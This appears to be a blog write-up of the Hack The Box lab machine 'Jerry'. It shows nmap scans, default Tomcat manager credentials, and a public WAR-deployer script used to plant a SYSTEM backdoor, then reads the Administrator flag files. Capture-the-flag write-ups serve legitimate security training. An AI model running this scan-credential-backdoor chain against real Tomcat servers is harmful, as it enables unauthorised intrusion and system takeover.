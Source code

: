 ```yaml
---
layout: single
title: "Jerry - Hacking Windows HTB Box "
categories: htb
classes: wide
---
```


Machine: Jerry

Ip: 10.10.10.95


Usually, First i perform all ports scanning
```bash
nmap -p- -v -T5 10.10.10.95
```
Nmap found only port 8080 open. Again scan to enumerate the version of it.

```bash
$ nmap -p8080 -sV -sC  -T5 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88


```

This version is vulnerable to war file upload( [CVE LINK](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12617)). To exploit this we need creds info. 

I found the default creds in ```http://10.10.10.95/manager```:
```
Username: tomcat
Password: s3cret 
```

It was really easy machine to exploit. I found an awesome exploit script:
```
https://github.com/mgeeky/tomcatWarDeployer
```

Running this script as follows:
```
python tomcatWarDeployer.py.py -U tomcat -P s3cret -v 10.10.10.95:8080
```
![Exploiting Jerry](/images/jerry1.png)

And it upload a backdoor as system. So i was able to find all flags with following command:
```bat
cmd /c type c:\Users\Administrator\Desktop\flags\*.txt
```

Screenshot:
![Hacking Windows 2012 HTB Box jerry](/images/jerry-root.png)